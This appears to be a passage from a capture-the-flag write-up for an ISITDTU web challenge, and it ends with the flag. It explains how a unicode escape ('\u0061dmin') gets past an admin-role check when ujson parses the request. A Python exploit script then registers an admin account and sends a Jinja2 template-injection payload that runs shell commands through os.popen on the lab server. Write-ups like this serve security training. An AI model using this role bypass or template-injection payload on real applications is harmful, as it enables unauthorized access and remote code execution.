 So can use unicode `\\u0061dmin` and then it will load into admin and bypass the check.
```python
>>> ujson.loads('{"role":"\\u0061dmin"}')
{'role': 'admin'}
```

Exploit script:
```python
import requests
import random

BASE_URL = "http://localhost:8082"
username = "".join(random.choices("abcdefghijklmnopqrstuvwxyz", k=10))
password = "".join(random.choices("abcdefghijklmnopqrstuvwxyz", k=10))

register_url = f"{BASE_URL}/register"
json = {"password": password, "role": "\\u0061dmin", "username": username}
requests.post(register_url, json=json)

login_url = f"{BASE_URL}/login"
json = {"password": password, "username": username}
r = requests.post(login_url, json=json)
cookie = r.json()["message"]
print("cookie: ", cookie)

render_url = f"{BASE_URL}/render"
cookies = {"jwt_token": cookie}
json = {
    "template": "{{ cycler.__init__.__globals__.os.popen('mkdir static;ls > /app/static/test').read() }}"
}
requests.post(render_url, cookies=cookies, json=json)

url = f"{BASE_URL}/static/test"
print(requests.get(url).text)
```

Flag: `ISITDTU{N0W_y0u_kn0w_h0w_T0_m4k3_1t_r3Fl3ct3d!!}`

### X Ec Ec
